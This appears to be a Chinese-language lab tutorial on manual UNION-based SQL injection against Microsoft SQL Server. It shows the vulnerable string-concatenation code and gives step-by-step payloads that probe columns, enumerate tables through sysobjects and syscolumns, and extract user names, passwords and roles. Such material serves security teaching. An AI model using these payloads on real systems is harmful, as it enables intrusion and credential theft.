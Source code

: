 # 有回显的Mssql手工注入

[TOC]

## Mssql介绍

SQL Server数据库的一切信息都保存在它的系统表格里，每个数据库内都有系统表**sysobjects**，它存放该数据库内创建的所有对象，如**数据库，表，约束、默认值、日志、规则、存储过程**等，每个对象在表中占一行。



## 注入过程

1. **判断是否注入点**

   **id=1 and 1=1**页面返回正常，**id=1 and 1=2** 页面返回不正常，说明存在注入。

   造成注入的原因是未对传入的参数做任何的过滤，关键代码为：

   - `string where = string.Format("ID={0}", Request.Params["id"]);`
   - 拼接后的sql语句为`select * from articles where ID= Request.Params["id"]`

2. **判断字段数**

   在**id=1**后面添加**order by n**，n从1开始依次增大，直到页面返回不正常，当n=a时页面返回正常，n=a+1时页面返回不正常，说明字段数为a。这里依次尝试order by 1,2,3,4,5,6，发现当n为5的时候页面返回正常，n为6的时候页面没有正常返回，所以可以确定字段数为5。

   ![img](image\db7cf8d7-1c57-4170-b2e5-2f80e1001d82.jpg)

3. **用`union`判断回显字段**

   根据上一步已经知道字段数为5，因为mssql可以用**union联合查询**，所以用`id=1 and 1=2 union select 1,2,3,4,5`测试，

   因为用**union**是**有字段数和数据类型的限制**，请自行查阅，通过尝试发现当id=1 and 1=2 union select 1,'2','3','4',5页面有回显。

      ![img](image\7f280067-f60f-4460-80e9-94c95b3de522.jpg)
   根据上面的步骤可以知道表中的2，3，4字段为字符串类型。2，3，4中的内容可以用系统函数代替，获取想要的信息，比如：将'3'替换成

4. `db_name()`，获取数据库的名字为Ms_SqlInect。

      ![img](image\headImg.jpg)

5. **爆出所要数据库的表和内容**

   每个数据库中都有一个**sysobjects系统表**，通过这个表读取数据库的表。

   `id=1 and 1=2 union select 1,'2',name,'4',5 from sysobjects where xtype='u'`

      ![img](https://www.hetianlab.com/headImg.action?guideImg=71d8c5ab-102f-4ea7-8f76-45dfa1615633.jpg)

   获取第二个表的名字。通过构造SQL语句可以爆出第二个表的名字，得到用户表User。仔细观察SQL语句的书写技巧：

   `id=1 and 1=2 union select top 1 1,'2',name,'4',5 from sysobjects where xtype='u' and name not in (select top 1 name from sysobjects where xtype = 'u')`

      ![img](https://www.hetianlab.com/headImg.action?guideImg=27ccc861-6373-4dc1-af1b-b4b1a9f24a76.jpg)

   找到用户后，通过系统表`syscolumns`爆出字段的名字。语句为：`id=1 and 1=2 union select top 1 1,'2',name,'4',5 from syscolumns where id = (select id from sysobjects where name= 'user')`，获取第一个字段。

      ![img](https://www.hetianlab.com/headImg.action?guideImg=73c79925-30d8-4afc-b7fa-3faf335d2114.jpg)

   4、获取第二个字段。id=1 and 1=2 union select top 1 1,'2',name,'4',5 from syscolumns where id = (select id from sysobjects where name= 'user') and name not in(select top 1 name from syscolumns where id =(select id from sysobjects where name='user'))，依次可以找出该表中还有password和role字段。

      ![img](https://www.hetianlab.com/headImg.action?guideImg=ca72246f-a481-4ffb-848a-ff2d0d25b836.jpg)

   5、获取字段内容。

      从表user中获取name字段的内容。

      ![img](https://www.hetianlab.com/headImg.action?guideImg=ffc2a689-12a9-4667-bcea-9dc0b8534110.jpg)

      这里user添加一个[]是因为系统表中也存在user表，把name换成password和role就可以爆出相应字段的内容。